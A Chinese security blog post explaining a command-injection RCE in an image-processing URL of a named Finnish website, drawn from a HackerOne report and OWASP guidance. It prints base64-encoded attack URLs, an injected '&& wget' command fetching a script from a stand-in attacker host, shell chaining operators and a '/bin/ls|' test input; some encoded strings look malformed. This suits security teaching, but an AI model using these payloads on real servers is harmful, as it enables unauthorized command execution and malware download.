 #  通过命令注入来实现的RCE   
原创 richardo1o1  迪哥讲事   2024-07-14 20:50  
  
## 正常情况下  
  
在没有遭受攻击的正常情况下，该网站的“/system/images”URL用于接收Base-64编码的字符串，这个字符串指向服务器上的某个图片文件，并且可能包含一些ImageMagick的convert命令的合法参数，用以处理图像（例如调整大小、改变质量等）。正常的请求看起来可能是这样：  
```
https://toimitilat.lahitapiola.fi/system/images/BAhbCFsHOgZmSSJIMjAxNy8xMi8wMS8wOF8zNF8zNl80OTNfMDAxMDBfS2Fpc2FuaWVtZW5rYXR1XzFfanVsa2lzaXZ1M19MVF93LmpwZwY6BkVUWwk6BkZlcnRJIiktc3RyaXAgLWludGVybGFjZSBQbGFuZSAtcXVhbGl0eSA4MCUGOwZU

```  
  
这里的Base-64编码部分解码后可能会是一个合法的路径加上ImageMagick的参数，如 -strip -interlace Plane -quality 80%，这些都是正常的图像处理命令。  
## 受到攻击后  
  
当受到攻击时，攻击者会通过注入恶意命令来修改或扩展Base-64编码的部分。攻击者可能会在合法的命令之后添加如 && 这样的bash命令连接符，随后是一些恶意命令，比如 wget 来下载远程恶意脚本或工具，或是其他能够进一步损害系统安全的命令。被攻击的请求示例如下：  
```
https://toimitilat.lahitapiola.fi/system/images/BAhbCFsHOgZmSSJEMjAxNy8xMi8xNC8xNl8zNF8zNl80OTNfMDAxMDBfS2Fpc2FuaWVtZW5rYXR1XzFfanVsa2lzaXZ1M19MVF93LmpwZwY6BkVUWwk6BkZlcnRJIikgJiYgd2dldCBodHRwOi8vZXZpbC5leGFtcGxlLmNvbS9tYWxpY2lvdXMuc2ggOw==

```  
  
在这个例子中，Base-64编码部分解码后可能会包含 -strip -interlace Plane -quality 80% && wget http://evil.example.com/malicious.sh， 其中 && wget http://evil.example.com/malicious.sh 是被注入的恶意命令  
  
这种情况下的攻击可以导致服务器执行未经授权的命令，可能会导致数据泄露、服务中断或更严重的安全威胁。  
## 攻击流程  
  
环节1: 构造恶意Base-64编码字符串  
  
原始命令: 在正常情况下，ImageMagick的convert命令可能被用来调整图片质量或格式，例如：  
```
convert -strip -interlace Plane -quality 80 input.jpg output.jpg

```  
  
这些参数会在Base-64编码后作为URL的一部分。  
  
注入恶意命令: 攻击者在这些参数后添加恶意命令。例如，要添加一个下载命令：  
```
&& wget http://evil.example.com/malicious.sh


```  
  
这个命令尝试从指定的URL下载一个恶意脚本。  
  
完整的恶意命令:  
```
convert -strip -interlace Plane -quality 80 input.jpg output.jpg && wget http://evil.example.com/malicious.sh

```  
  
Base-64编码: 攻击者将整个命令行字符串进行Base-64编码。假设编码后的字符串为 Q29udmVydCB-c3RyaXAgLWludGVybGFjZSBQbGFuZSAtcXVhbGl0eSA4MCBpbnB1dC5qcGcgb3V0cHV0LmpwZyAmJiB3Z2V0IGh0dHA6Ly9ldmlsLmV4YW1wbGUuY29tL21hbGljaW91cy5zaA==。  
  
环节2: 发送攻击请求  
  
构造URL: 攻击者将编码后的字符串作为URL的一部分发送给服务器：  
```
https://toimitilat.lahitapiola.fi/system/images/Q29udmVydCB-c3RyaXAgLWludGVybGFjZSBQbGFuZSAtcXVhbGl0eSA4MCBpbnB1dC5qcGcgb3V0cHV0LmpwZyAmJiB3Z2V0IGh0dHA6Ly9ldmlsLmV4YW1wbGUuY29tL21hbGljaW91cy5zaA==

```  
  
环节3: 服务器执行命令  
  
服务器处理: 服务器接收到请求，解码Base-64字符串，然后可能无意识地将其作为命令在服务器上执行。这就允许攻击者的恶意命令运行。  
  
环节4: 潜在的后果  
  
下载并执行恶意脚本: 如果服务器配置允许，下载的恶意脚本可能被执行，进一步损害服务器安全，如安装后门、窃取数据等。  
## 总结与补充  
  
这是一个典型的命令注入的问题  
  
这里补充一些相关的知识点(主要是参考wstg)  
  
基本的一些shell知识点:  
```
cmd1 | cmd2 #只执行 cmd2
cmd1 || cmd2 #只有当 cmd1 执行失败后，cmd2 才被执行
cmd1 & cmd2 #先执行 cmd1，不管是否成功，都会执行 cmd2
cmd1 && cmd2 #先执行 cmd1，cmd1 执行成功后才执行 cmd2，否 则不执行 cmd2
$(cmd)  #当你需要将命令的输出作为另一个命令的参数时。例如:mkdir $(date +%Y-%m-%d),创建一个以当前日期命名的目录，例如2024-05-07

```  
  
如何测试?  
  
发现一些可疑的参数就可以去测试，这里举一些例子:  
  
正常情况下:  
```
http://sensitive/cgi-bin/userData.pl?doc=user1.txt

```  
  
注入命令之后:  
```
http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|

```  
##   
  
如果你是一个长期主义者，欢迎加入我的知识星球，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款前面有同学问我有没优惠券，这里发放100张100元的优惠券,用完今年不再发放  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7N5nMaJbtnMPVw96ZcVbWfp6SGDicUaGZyrWOM67xP8Ot3ftyqOybMqbj1005WvMNbDJO0hOWkCaQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5jYW8icFkojHqg2WTWTjAnvcuF7qGrj3JLz1VgSFDDMOx0DbKjsia5ibMpeISsibYJ0ib1d2glMk2hySA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 往期回顾  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486912&idx=1&sn=8704ce12dedf32923c6af49f1b139470&chksm=e8a607a3dfd18eb5abc302a40da024dbd6ada779267e31c20a0fe7bbc75a5947f19ba43db9c7&scene=21#wechat_redirect)  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
## 参考  
  
https://hackerone.com/reports/303061  
  
https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection.html  
  
  
  
